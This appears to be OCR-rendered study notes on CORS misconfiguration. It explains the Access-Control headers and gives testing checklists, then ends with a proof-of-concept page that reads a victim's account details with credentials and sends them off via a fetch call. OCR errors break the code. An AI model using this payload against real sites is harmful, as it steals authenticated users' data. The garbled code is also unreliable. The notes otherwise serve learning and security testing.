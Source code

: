 ## cors

It instructs the browser which resource to access from other websites
These headers start with ```Access Control``` for example, 

Basically adds flexibility to the same origin policy.

```
HTTP/1.1 200 OK
Cache-Control: no-cache
Access-Control-Allow-Origin: https://a.com
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers:
cache-control, content-language, expires, last-modified, content-range, content-length, accept-ranges
Cache-Control: no-cache
Content-Туре: application/json
Vary: Accept-Encoding
Connection: close
Content-Length: 15
{"status": "ok"}

```

- Access-Control-Allow-Origin : describes which origin can access the response, if the header is set to **wildcard** then the it can access resources from any origin
- Access-Control-Allow-Credentials : indicates if request can contain credentials,if this is set to true any request sent will include the cookies and by default this header is set to false.
- Access-Control-Expose-Headers : allowing certain headers.


If origin header is said to wildcard then credentials cannot be false for security reasons


Blackbox Testing of this misconfiguration:

* Map the application 
* Test the application for dynamic generation
    - Does it refelct ACAO headers or not.(changing the values of the headers of the website)
    - some use regex to validate the string.
    - Does it allow null origin
    - Does it restrict the protocol
    - Does it allow passing the credentials
* once cors is found determine the impact of it.

White box

* Determine the frameworks used.
* find out if that stack allows for cors configuration 
* review code to identify any misconfiguration in cors rules


Exploitation 

* If the application allows for credentials.
    - This it the poc used
``` <html> ‹body›
        <h1›Hello World!‹/h1>
        <scripts>
        var hr = new XMLHttpRequest () ;
        var url = "<https://vulnerable-site.com>"
        xhr.onreadystatechange = function() {
             if (xhr.readyState == XMLHttpRequest.DONE) {
            fetch("/log?key=" + xhr.responseText)
            }
        }
        xhr.open ('GET', url + "/accountDetails", true);
        xhr.withCredentials = true;
        xhr.send (null);
        ‹/script> </bodv>

     </html>
```

